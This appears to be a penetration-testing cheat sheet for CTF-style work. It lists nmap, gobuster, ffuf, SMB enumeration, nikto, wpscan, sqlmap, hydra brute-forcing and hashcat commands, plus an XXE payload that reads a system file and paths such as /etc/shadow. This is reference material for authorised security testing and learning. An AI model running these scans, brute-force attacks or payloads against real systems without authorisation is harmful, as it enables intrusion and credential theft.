 Scanning
========

Rustscan
--------

Scan an IP:
```
rustscan -a $RIPS --ulimit 5000 --range 1-65535 -- -oX $PROJECTDIR/nmap.xml -sC
```

Nmap
----

Scan TCP Ports:
```
sudo nmap -sV $RIPS -oX $PROJECTDIR/nmap.xml
```
	
Scan TCP ports and run scripts against open ports:
```
sudo nmap -sV -sC $RIPS -oX $PROJECTDIR/nmap.xml
```
	
Scan top 20 UDP ports and run scripts against open ports:
```
sudo nmap -Pn -sU -sV -sC --top-ports=20 -oN $PROJECTDIR/top_20_udp_nmap.txt $RIP
```

nmap ignore firewall
```
sudo nmap -sV -sC -Pn $RIPS -oX $PROJECTDIR/nmap.xml
```

Scan for smb vulns
```
sudo nmap --script smb-vuln* -p 445 -oA nmap/smv_vuln $RIPS -oX $PROJECTDIR/nmap-smb.xml
```

An all-TCP-port version scan (SYN Stealth Scan, **Slow**)
```
sudo nmap -sSV -T4 -O -p0-65535 -Pn $HOST
```

CURL
----

Send HEAD request to IP:80
```
curl -I http://$RIP/
```

GoBuster
--------

Quick scan of a URL
```
gobuster dir --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt --url $RURL --output $PROJECTDIR/gobuster.txt
```

Medium scan of a URL
```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --url $RURL --output $PROJECTDIR/gobuster-medium.txt
```

Big scan of a URL
```
gobuster dir --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt --url $RURL --output $PROJECTDIR/gobuster-big.txt
```

Huge scan of a URL
```
gobuster dir --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt --url $RURL --output $PROJECTDIR/gobuster-raft.txt
```

Focus on PHP files
```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -e -s "200,301,302,401" -x "php" -t 100 --url $RURL --output $PROJECTDIR/gobuster.txt
```

Fuff
----

Look for files
```
ffuf -c -H 'Authentication: Basic YWRtaW46YWRtaW4=' -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -u http://driver.htb/FUZZ -e .php,.zip,.txt,.pdf
```

SMBClient
---------

Enumerate shares:
```
nmap -Pn -n -sT -sC -p139,445
```
or
```
nmap -Pn --script smb-enum-shares -p 139,445 [ip]
```

Identifying open shares with directory listing:
```
while read i; do smbmap -H $i 2>/dev/null; done < <Target IP File> | grep -v Finding | grep -v Authentication
```

Check anonymous shares:
```
smbclient -L \\test.local -I $RIP -N
```

Scan SMB ports:
```
nmap -Pn -n -sT -sC -p139,445 $RIP
```

XML
---

Vulnerable XML through external entities
```
Vulnerable XML:
	<!DOCTYPE root [<!ENTITY test SYSTEM "c:/windows/win.ini"> ]>
	...
	&test;
	...
```

Crypto
------

Check a public key
```
openssl rsa -noout -text -inform PEM -in Weak\ RSA/key.pub -pubin
```

Break RSA
```
cd ~/RsaCtfTool
python3 RsaCtfTool.py
```

Understand files
----------------

Discover the type of a file
```
file {filename}
```

Discover file that contains other magic numbers
```
binwalk --signature --term {filename}
```

WPScan
------

```
sudo gem install wpscan
wpscan --url $URL --detection-mode aggressive
```

General Vulnerability Scan
--------------------------
```
nikto --host $RURL
```

Useful Linux Paths
------------------

```
/etc/passwd
/etc/shadow
/etc/crontab
```

Bruteforce a login page
-----------------------

[Guide](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)

```
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt $RIP http-post-form "/login.php:username=admin&password=^PASS^:Invalid Username or Password"
```

Reverse a hash
--------------

```
echo "{hash}" > hash
hashcat -a 0 -m 500 hash /usr/share/wordlists/rockyou.txt
```

GDB
---

Check security on a binary
```
checksec $file
```

wfuzz
-----

Fuzz for parameters:
```
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "$RURL?known=param&FUZZ=param" --hh [[EXPECTED CHARS LENGTH]]
```

sqlmap
------

Look for vulnerable payloads by fuzzing a request.  To get `request.txt` submit a form using burpsuite then save the raw request as `request.txt` in `$PROJECTDIR`.
```
sqlmap -r $PROJECTDIR/request.txt --dbs
```

autorecon
---------

```
autorecon $RIPS
```

fuff
----

Fuzz subdomains:

```
ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u $RIP -H "Host: FUZZ.machine" -mc 200
```
